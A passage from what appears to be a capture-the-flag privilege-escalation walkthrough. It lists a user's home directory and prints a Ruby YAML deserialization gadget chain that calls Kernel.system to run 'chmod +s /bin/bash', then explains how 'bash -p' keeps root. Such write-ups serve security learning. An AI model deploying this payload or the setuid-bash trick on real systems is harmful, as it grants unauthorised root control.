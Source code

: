 There are two users with shells on this box. The first is "ruby", which is the user we are currently, and the second is "henry".

Listing out the files in henry's home directory, we can see there are some interesting ones that we have read permissions for.

```bash
ls -la /home/henry
```

output:
```
total 36
drwxr-xr-x 3 henry henry 4096 Mar 25 19:10 .
drwxr-xr-x 4 root  root  4096 Oct 26 08:28 ..
lrwxrwxrwx 1 root  root     9 Sep 26 05:04 .bash_history -> /dev/null
-rw-r--r-- 1 henry henry  220 Sep 26 04:40 .bash_logout
-rw-r--r-- 1 henry henry 3526 Sep 26 04:40 .bashrc
-rwxr-xr-x 1 henry henry  616 Mar 25 19:08 dependencies.yml
-rw-r--r-- 1 henry henry  617 Mar 25 15:28 dependencies.ymlm
-rw-r--r-- 1 root  root     0 Mar 25 18:53 file.txt
drwxr-xr-x 3 henry henry 4096 Mar 25 15:17 .local
-rw-r--r-- 1 henry henry  807 Sep 26 04:40 .profile
-rw-r----- 1 root  henry   33 Mar 25 12:15 user.txt
```

Let's look into that dependencies file to start
```bash
cat /home/henry/dependencies.yml
```

output:
```yaml
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: chmod +s /bin/bash
         method_id: :resolve
```

`git_set: chmod +s /bin/bash` jumps out here. This is setting the SetUID bit on the `/bin/bash` binary, which seems like a great way to root. Usually, bash resets the effective user ID before executing commands, but if we add the `-p` flag, it will retain that SUID. From the [bash manpage](https://linux.die.net/man/1/bash):
